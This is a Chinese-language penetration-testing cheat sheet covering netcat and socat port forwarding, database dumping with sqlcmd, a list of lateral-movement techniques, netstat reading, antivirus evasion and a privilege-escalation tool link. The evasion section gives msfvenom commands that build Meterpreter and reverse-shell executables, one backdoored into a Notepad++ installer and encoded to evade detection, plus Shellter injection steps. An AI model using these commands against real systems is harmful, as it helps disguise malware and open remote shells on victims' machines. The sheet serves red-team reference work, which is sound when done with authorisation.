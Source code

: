 综合技巧
========================================

端口转发
----------------------------------------
- nc
    - 端口扫描
	``nc -z -v -n 172.31.100.7 21-25``
    - 聊天
	``nc -l 1567``
	``nc 172.31.100.7 1567``
    - 文件传输
	``nc -l 1567 < file.txt``
	``nc -n 172.31.100.7 1567 > file.txt``
    - 目录传输
	``tar -cvf – dir_name | nc -l 1567``
	``nc -n 172.31.100.7 1567 | tar -xvf -``
    - 加密传输
	``nc localhost 1567 | mcrypt –flush –bare -F -q -d -m ecb > file.txt``
	``mcrypt –flush –bare -F -q -m ecb < file.txt | nc -l 1567``
    - 端口转发
	``nc -l 8000`` 
	``cat /tmp/fifo | nc localhost 8000 | nc -l 9000 > /tmp/fifo`` 
	``nc -n 192.168.1.102 9000`` 
- socat
    - 显示本地文件
	``socat - /etc/sysctl.conf`` 
    - 监听本地端口
	``socat TCP-LISTEN:12345 -`` 
    - UNIX DOMAIN域套接字转成TCP SOCKET
	``socat TCP-LISTEN:12345,reuseaddr,fork UNIX-CONNECT:/data/deCOREIDPS/unix.domain`` 
    - 端口转发
	``对于所有15000端口的TCP访问，一律转发到 server.wesnoth.org:15000 上`` 
	``socat -d -d -lf /var/log/socat.log TCP4-LISTEN:15000,reuseaddr,fork,su=nobody TCP4:server.wesnoth.org:15000`` 
	``tcp：nohup socat TCP4-LISTEN:2333,reuseaddr,fork TCP4:233.233.233.233:6666 >> /root/socat.log 2>&1 &`` 
	``udp：nohup socat UDP4-LISTEN:2333,reuseaddr,fork UDP4:233.233.233.233:6666 >> /root/socat.log 2>&1 &`` 

脱裤
----------------------------------------
- sqlcmd
	+ dump数据:``sqlcmd -S 127.0.0.1,1433 -U username123 -P pasword123 -d datebase123 -Q"BACKUP DATABASE database123 to disk='c:\www\myweb\wap\userlz.bak'"``
- sqlmap

远程连接 && 执行程序
----------------------------------------
- at&schtasks
- psexec
- wmic
- wmiexec.vbs
- smbexec
- powershell remoting
- SC创建服务执行
- schtasks
- SMB+MOF || DLL Hijacks
- PTH + compmgmt.msc

netstat
-----------------------------------------

|netstat|

- Local ：访问端口的方式，0.0.0.0 是对外开放端口，说明80端口外面可以访问；127.0.0.1 说明只能对本机访问，外面访问不了此端口；
- Address：端口
- Foregin Address：对外开放，一般都为0.0.0.0：* 
- Program name：此端口是那个程序在用，程序挂载此端口
- 重点说明 0.0.0.0 是对外开放，通过服务域名、ip可以访问的端口
- 127.0.0.1 只能对本机 localhost访问，也是保护此端口安全性
- ::: 这三个: 的前两个”::“，是“0:0:0:0:0:0:0:0”的缩写，相当于IPv6的“0.0.0.0”，就是本机的所有IPv6地址，第三个:是IP和端口的分隔符

免杀
-----------------------------------------
- MSF制作免杀木马
	- 列出所有可用编码
		``msfvemon -l encoders``
	- 裸奔木马
		``msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.11 LPORT=1234 -f exe > /root/test.exe``
	- 免杀木马
		``msfvenom -p windows/shell_reverse_tcp LHOST=10.10.20.2 LPORT=3333 -e x86/shikata_ga_nai -x npp.7.8.6.Installer.exe -i 12 -f exe -o /root/npp1.exe``

	|msfvemon1|

- Shellter动态注入工具
	- 下载地址
		``https://www.shellterproject.com/download/``
	- Choose Operation Mode - Auto/Manual (A/M/H)
		选择模式: 自动模式自动注入后门，M高级模式，H帮助
	- PE Target：
		注入的程序.
	- Enable Stealth Mode?
		是否启用隐身模式
	- Use a listed payload or custom? (L/C/H)
		使用攻击模块列表或者自定义
	- Select payload by index:
		选择payload序号
	- SET LHOST
		设置反弹回来的IP 本机
	- SET LPORT
		设置接收反弹的端口
		
提权
-----------------------------------------
- PEASS-ng
	 + 新一代特权升级脚本套件，适用于 Windows 和 Linux/Unix* 以及 MacOS 的权限提升工具
	 + 项目地址: ``https://github.com/carlospolop/PEASS-ng``


.. |netstat| image:: ../images/netstat.png
.. |msfvemon1| image:: ../images/msfvenom1.png
